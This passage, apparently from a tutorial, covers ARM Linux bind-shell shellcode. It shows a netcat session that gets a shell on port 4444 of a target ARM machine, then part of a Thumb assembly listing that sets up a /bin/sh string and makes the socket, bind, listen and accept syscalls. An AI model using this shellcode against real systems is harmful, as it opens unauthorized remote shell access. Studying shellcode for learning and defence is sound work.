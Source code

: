 Connect from a remote client using netcat as a client. The target ARM machine is at 192.168.10.221.

```
remote:$ nc 192.168.10.221 4444
uname -a
Linux wandq-2 4.19.12-jumpnow #1 SMP Sat Dec 22 09:14:15 UTC 2018 armv7l armv7l armv7l GNU/Linux
exit


```

Setting the IP address to **INADDR_ANY** means **0.0.0.0** or listen on every interface.

Here is an assembler version of the same program

```
.text
.global _start

_start:
    add r1, pc, #1
    bx r1

.code 16
    @ initialize the sa struct, AF_INET, 0.0.0.0
    adr r0, _sa
    eor r2, r2, r2
    @ replace the 0xff in the first word with 0x00
    strb r2, [r0, #1]
    @ set the ip address to 0.0.0.0
    str r2, [r0, #4]
    @ null terminate the /bin/sh string
    strb r2, [r0, #15]

    @ syscall #281 socket(AF_INET, SOCK_STREAM, 0)
    mov r0, #2
    mov r1, #1
    @ r2 is already zero
    mov r7, #200
    add r7, #81
    svc #1

    @ save server socket
    mov r4, r0

    @ syscall #282 bind(sock, &sa, 16)
    @ r0 still has socket
    adr r1, _sa
    mov r2, #16
    add r7, #1
    svc #1

    @ syscall #284 listen(sock, 1)
    mov r0, r4
    mov r1, #1
    add r7, #2
    svc #1

    @ syscall #285 accept(sock, 0, 0)
    mov r0, r4
    eor r1, r1, r1
    eor r2, r2, r2
    add r7, #1
    svc #1

    @ save client socket
```